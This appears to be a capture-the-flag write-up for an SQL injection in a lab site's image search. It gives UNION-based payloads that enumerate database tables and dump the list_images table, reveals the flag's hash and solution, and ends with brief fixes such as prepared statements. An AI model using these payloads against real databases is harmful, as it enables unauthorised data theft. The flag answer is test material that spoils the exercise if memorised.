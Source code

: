 # 05-SQL_Image_Search

The image search is vulnerable to sql injections

## The approach

-Go to http://192.168.101.204/?page=searching

-On the search field, type `1 AND 1=1`and press search button 

- Type this union command on the filed: -1 union select null, concat (table_name) from information_schema.tables where table_schema = database (). this returns table name which is list_images.

- type on the field -1 union select NULL, concat (id, url, title, comment) from list_images. this returns  images from the table.

- from the results you get ( " If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46 " decrypt code using MD5 decrypt, then run sha256 on lowercased password: flag is result )

- copy this 1928e8083cf461a51303633093573c46 to a md5 decoder then get the albatroz result to sha256 to get the flag.

## The Exploit #

Users can exploit and destroy sensitive information on your database

## The solution

- Use prepared statements in the backend to prevent sql injections 
- Send form as post request
- try and catch methods should prevent charecters like (', <, ", ?) images shouldnt begin with that type of name.

## Resources

https://www.md5online.org/md5-decrypt.html  
sha256-hash-generator/ 